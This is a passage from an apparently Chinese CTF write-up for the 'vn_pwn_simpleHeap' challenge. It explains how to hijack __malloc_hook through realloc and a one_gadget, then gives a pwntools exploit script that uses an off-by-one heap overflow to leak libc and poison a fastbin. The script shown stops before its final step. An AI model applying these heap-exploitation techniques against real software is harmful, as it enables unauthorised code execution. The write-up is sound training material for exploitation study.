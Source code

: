 ```python
create(0x68,'skye')#4
free(4)
payload = p64(malloc_hook-27-8)+'\n'
edit(2,payload)
```

正常来说将 malloc_hook 劫持为 onegadget 即可，但是测试发现这条题目的栈环境不满足全部 onegadget 条件，这就需要调整阵结构，使 onegadget 生效。**需要配合使用 realloc_hook 和 malloc_hook。**

将 malloc_hook 劫持为 realloc ，realloc_hook 劫持为 onegadget 。然后通过多次尝试确定偏移为 12 。

#### EXP

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p = process("./vn_pwn_simpleHeap")
# p = remote("node3.buuoj.cn",29864)
elf = ELF("./vn_pwn_simpleHeap")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc = ELF("./libc-2.23.so")

def create(size,content):
	p.sendlineafter("choice: ",'1')
	p.sendlineafter('?',str(size))
	p.sendafter(':',content)
def edit(id,content):
	p.sendlineafter("choice: ",'2')
	p.sendlineafter('?',str(id))
	p.sendafter(':',content)
def show(id):
	p.sendlineafter("choice: ",'3')
	p.sendlineafter('?',str(id))
def free(id):
	p.sendlineafter("choice: ",'4')
	p.sendlineafter('?',str(id))

create(0x18,'s')
create(0x48,'k')
create(0x68,'y')#2
create(0x10,'e')

payload = 'a'*0x18 + '\xc1'
edit(0,payload)

free(1)
create(0x48,'yyds')
show(2)

leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))
libc_base = leak_addr - 0x3c4b78
malloc_hook = libc_base + libc.sym['__malloc_hook']
log.info("malloc_hook:"+hex(malloc_hook))
realloc_hook = libc_base + libc.sym['__realloc_hook']
log.info("realloc_hook:"+hex(realloc_hook))
realloc = libc_base + libc.sym['realloc']
log.info("realloc:"+hex(realloc))

create(0x68,'skye')#4
free(4)
payload = p64(malloc_hook-27-8)+'\n'
edit(2,payload)

create(0x68,'a')
```